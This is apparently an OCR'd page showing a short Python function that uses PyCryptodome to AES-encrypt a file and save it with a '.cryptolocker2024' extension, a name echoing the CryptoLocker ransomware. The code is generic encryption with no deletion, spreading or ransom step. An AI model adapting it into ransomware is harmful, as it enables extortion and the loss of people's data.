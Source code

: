 **Example encryption process using PyCryptodome library in Python:**

```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
from Crypto.Util.Padding import pad, unpad
import os

def encrypt_file(file_path):
    key = get_random_bytes(32)
    cipher = AES.new(key, AES.MODE_CBC)
    with open(file_path, 'rb') as file:
        file_data = file.read()
    ciphertext = cipher.encrypt(pad(file_data, AES.block_size))
    encrypted_file_path = file_path + '.cryptolocker2024'
    with open(encrypted_file_path, 'wb') as file:
        file.write(cipher.iv + ciphertext)
    return key, encrypted_file_path
